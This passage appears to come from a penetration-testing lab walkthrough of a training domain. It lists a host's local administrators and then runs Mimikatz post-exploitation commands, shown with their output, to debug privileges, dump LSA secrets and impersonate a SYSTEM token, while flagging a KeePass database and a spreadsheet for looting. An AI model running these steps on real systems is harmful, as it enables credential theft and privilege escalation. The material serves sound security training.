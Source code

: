 Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
ilfserveradm
INLANEFREIGHT\Domain Admins
The command completed successfully.
</code></pre>
<hr/>
<h2>Post-Exploitation/Pillaging</h2>
<p>Next, we'll perform some post-exploitation on the MS01 host. We do see a couple of interesting files in the root of the c:\ drive named <code>budget_data.xlsx</code> and <code>Inlanefreight.kdbx</code> that would be worth looking into and potentially reporting to the client if they are not in their intended location. Next, we can use Mimikatz, elevate to an <code>NT AUTHORITY\SYSTEM</code> token and dump LSA secrets.</p>
<pre><code class="language-cmd-session">c:\Users\ilfserveradm\Documents&gt; mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( <a class="__cf_email__" data-cfemail="5f3d3a31353e3236311f383a312b363334362836713c3032" href="/cdn-cgi/l/email-protection">[email protected]</a> )
 ## \ / ##       &gt; https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( <a class="__cf_email__" data-cfemail="ef9986818c8a819bc1838a9b809a97af88828e8683c18c8082" href="/cdn-cgi/l/email-protection">[email protected]</a> )
  '#####'        &gt; https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::secrets
Domain : ACADEMY-AEN-MS0
SysKey : 61b3d49a6205a1dedb14591c22d36afc
ERROR kuhl_m_lsadump_secretsOrCache ; kull_m_registry_RegOpenKeyEx (SECURITY) (0x00000005)

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

564     {0;000003e7} 1 D 30073          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -&gt; Impersonated !
 * Process Token : {0;0136075a} 2 F 20322234    ACADEMY-AEN-MS0\ilfserveradm    S-1-5-21-1020326033-369054202-3290056218-1002   (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 20387820    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
